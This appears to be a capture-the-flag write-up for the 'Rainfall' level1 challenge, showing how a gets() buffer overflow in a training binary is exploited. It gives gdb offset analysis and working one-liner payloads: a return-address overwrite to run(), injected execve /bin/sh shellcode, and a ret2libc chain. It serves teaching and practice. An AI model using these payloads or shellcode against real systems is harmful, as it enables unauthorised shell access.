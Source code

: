 # level1

The binary presents doesn't take any arguments. It reads from `stdin` and do nothing if the input is less than 76 characters. And segfaults if the input is more  or equal than 76 characters.


## Step 1
Decompile the binary with `Ghidra` gives the following code: [source.c](https://github.com/lorispuchol/rainfall/blob/main/level1/source.c) 

`run` pops a shell but it is never called

`gets` is used to read the input. `gets` is vulnerable to buffer overflow.

```console
NAME
       gets - get a string from standard input (DEPRECATED)

SYNOPSIS
       #include <stdio.h>

       char *gets(char *s);

DESCRIPTION
       Never use this function.

       gets()  reads  a  line  from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0').  No check for buffer overrun is performed (see BUGS below).
```

## Goal  

Overflow the buffer to overwrite the __return address__ of the function `main` with the address of the function `run`. It will make the `next instruction pointer (eip)` to point to `run`.

```bash 
(gdb) info functions
```

```console
0x08048444  run
0x08048480  main
```

`run` is at `0x08048444` __which is `0x44\x84\x04\x08` in little endian__. [see here](https://www.geeksforgeeks.org/little-and-big-endian-mystery/)




```console
level1@RainFall:~$ gdb level1 
(gdb) b *main+16
Breakpoint 1 at 0x8048490
(gdb) r
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048490 in main ()
(gdb) disas
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
=> 0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048490 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff738, args: 
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) x $eax
0xbffff6f0:	0x08048400
(gdb) p  0xbffff73c - 0xbffff6f0
$1 = 76
```

`eax` of `gets` will write at `0xbffff6f0`. The `eip` is at `0xbffff73c`. So we want to overwrite `eip` and write address of `run` in, by overflowing `eax`.

> 76 bytes between `eax` and `eip`

> Illegal instruction if the input is equal to 76 characters because EOL is not an instruction.

## Exploit with `run`

```bash
(python -c 'print "A" * 76 + "\x44\x84\x04\x08"'; cat)  | ./level1
```


Or

```bash
(python -c 'print "A" * 76 + "\x44\x84\x04\x08"') > /tmp/payload
cat /tmp/payload - | ./level1
```

> `cat` and `-` are used to keep the stdin open


## Exploit with shellcode

Write a shellcode at the start of the buffer. and overwrite the return address with the address of the buffer.

The shellcode are instructions that will pop a shell: [found here](https://cocomelonc.github.io/tutorial/2021/10/09/linux-shellcoding-1.html)

shellcode size = 23 bytes

```bash
(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + "A" * (76-23) + "\xf0\xf6\xff\xbf"'; cat) | /home/user/level1/level1
```
> `\xf0\xf6\xff\xbf` is the address of the buffer.


## Exploit with ret2libc

Return to libc use the dependencies linked to the binary. and and use it  to pop a shell. [see here](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)

```bash
(python -c 'print "a" * 76 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat ) | /home/user/level1/level1
```


First: address of system: `(gdb) p system`  
Second: address of exit: `(gdb) p exit`  
Third: address of "/bin/sh": `find &system,+9999999,"/bin/sh"`

https://stackoverflow.com/questions/19124095/return-to-lib-c-buffer-overflow-exercise-issue

> - Adresses are found in the main frame  
> - Dont forget to run the binary with the same environment as in gdb (give the entirer path to the binary and/or unset LINES COLUNMS)

https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it
